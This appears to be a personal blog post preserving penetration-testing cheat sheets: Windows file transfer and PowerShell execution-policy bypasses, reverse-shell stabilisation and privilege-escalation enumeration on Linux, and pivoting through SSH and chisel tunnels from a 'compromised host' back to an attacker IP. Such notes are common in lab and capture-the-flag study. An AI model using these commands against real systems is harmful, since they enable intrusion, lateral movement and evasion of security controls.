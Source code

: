 ## Oops...

New blog post!

Why? I've somehow managed to break my bparrot install on an old laptop...

There are 3 files that I want to keep, so for now they'll live here :)


---

### File 1 - Windows notes


#### RDP from Linux

```
xfreerdp /v:$vip /u:$user /p:$pass /cert:ignore /dynamic-resolution +clipboard
```

#### Transfer over SMB

On Linux
```
sudo -E ~/.local/bin/smbserver.py share $(pwd) -smb2support
```
On Windows
```
copy \\10.10.16.11\share\work.exe
```

#### POWERSHELL Policy Stuff
```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

Or 

```
Get-Content -Raw <FILE> | iex
```

or 
```
powershell -EncodedCommand <Base64encodedcommands>
```

---

### File 2 - Low-Hanging Privilege Escalation on Linux


#### Try to Spawn a TTY

```
python -c 'import pty; pty.spawn("/bin/sh")' || python3 -c 'import pty; pty.spawn("/bin/sh")' || /usr/bin/script -qc /bin/sh /dev/null
```

Then type `CTRL+Z` to suspend the process and return to the main shell

Get the number of columns using 

```
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

Which should output something like
```
rows 24
columns 80
```
Return to the reverse shell using
```
stty raw -echo; fg
```

In the reverse shell set the correct number of terminals using

```
stty rows <ROWS> cols <COLUMNS>
```

So in this example
```
stty rows 24 cols 80
```

Then set the terminal using
```
export TERM=xterm-256color
```



#### Tiny privesc check

```
echo "--ID--";id;echo "--SUID--";find / -perm -u=s -type f 2>/dev/null; echo "--CAPABILITIES--"; getcap -r / 2>/dev/null; echo "--EXPORTS--"; cat /etc/exports;echo "--CRONTAB--"; cat /etc/crontab;echo "--APP ARMOR ENTRIES--";ls /etc/apparmor.d/; echo "--SUDO--"; sudo -l
```

### File 3 - Simple pivoting commands

#### Portforwarding

##### SSH
```
ssh -Nf -L <local_ip>:<local_port>:<destination_ip>:><remote_port> <user>@<IP>
```
For example to get access to a localhost **only** MySQL database on 10.20.30.40
```
ssh -Nf -L 127.0.0.1:3306:127.0.0.1:3306 victim@10.20.30.40
```
So any time you try to access **your** localhost on port 3306 it will instead go through the SSH tunnel to the SSH host's localhost on port 3306.

The first 127.0.0.1 is not needed, as it's implied. So you could shorten it using this
```
ssh -Nf -L 3306:127.0.0.1:3306 victim@10.20.30.40
```

You also don't need to use the same local port, as the remote port. So instead you could use the 33306 port.
```
ssh -Nf -L 33306:127.0.0.1:3306 victim@10.20.30.40
```

So now any traffic sent over 127.0.0.1:33306 will go through the SSH tunnel to 127.0.0.1:3306

This also doesn't need to be just to 127.0.0.1, so to access resources on an internal network, like an HTTP server with the IP 192.168.20.1, you can use this.
```
ssh -Nf -L 8000:192.168.20.1:80 victim@10.20.30.40
```

So any traffic sent to 127.0.0.1:8000 goes through the SSH tunnel and out to 192.168.20.1:80


##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<LISTENING_IP>:<LISTEN_PORT>:<SEND_IP>:<SEND_PORT>
```

An example to access an internal server on 127.0.0.1:3389 on the compromised host (10.20.30.40) run

Linux host (10.10.10.10)
```
chisel server --port 1234 --reverse
```

Compromised host
```
chisel client 10.10.10.10:1234 R:127.0.0.1:4242:127.0.0.1:3389
```
Now any traffic sent on the Linux host to 127.0.0.1:4242 goes through chisel to the compromised host's 127.0.0.1:3389

#### Proxying

##### SSH
```
ssh -D <proxy_port> -Nf <user>@<victim_ip>
```
For example to setup a proxy on port 6666
```
ssh -D 6666 -Nf victim@10.20.30.40
```
##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse --socks5
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<PROXY_PORT>:SOCKS
```

An example to setup a proxy on port 7676.

Your host (10.10.10.10)
```
chisel server --port 1234 --reverse --socks
```

Compromised host
```
chisel client 10.10.10.10:1234 R:7676:SOCKS
```

##### Using the proxy

Now that we've got a SOCKS proxy setup, (let's just say that it's on port 8080) how do we use it?

###### Proxychains

ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies. [Source](https://github.com/haad/proxychains)

Basically it hooks **LIBC** and forces connections made by **LIBC** to use the proxy.

Usage is pretty easy, albeit slow sometimes...

What I tend to do is copy the /etc/proxychains.conf to the current working directory and editing the last line with this syntax.

```
socks5 127.0.0.1 <PROXY_PORT>
```

So in this example.
```
socks5 127.0.0.1 8080
```
Then to use it, just run
```
proxychains -f ./proxychains.conf <COMMAND>
```
You could also set the `PROXYCHAINS_SOCKS5` environmental variable instead of messing with the config file.

```
PROXYCHAINS_SOCKS5=<PROXY_PORT> proxychains <COMMAND>
```



